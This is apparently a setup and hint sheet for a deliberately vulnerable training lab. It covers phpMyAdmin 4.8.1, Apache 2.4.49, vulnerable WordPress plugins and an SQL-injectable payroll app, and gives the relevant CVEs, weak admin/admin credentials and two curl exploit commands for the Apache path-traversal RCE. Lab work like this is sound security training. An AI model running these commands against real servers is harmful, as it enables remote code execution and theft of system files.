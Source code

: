 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
